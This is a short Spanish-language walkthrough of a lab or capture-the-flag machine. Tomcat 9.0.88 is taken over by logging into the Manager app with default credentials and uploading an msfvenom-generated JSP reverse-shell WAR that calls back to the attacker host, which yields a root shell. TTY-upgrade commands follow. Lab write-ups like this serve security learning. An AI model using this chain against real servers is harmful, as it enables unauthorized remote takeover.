 
![[nmap pn.png]]
nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, pero en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/70c49eae-589a-4499-a86f-57ab5e1b3201)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/b0026c05-43eb-4f66-b9e6-244a3cd725d4)

> las credenciales: tomcat/s3cr3t

entramos al "magaer app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war
![[war.png]]
para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war

lo lanzamos y nos crea un:   revshell.war
![[generado.png]]

lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell
![[subido.png]]

>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!
![[root.png]]

hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:
![[root sup.png]]
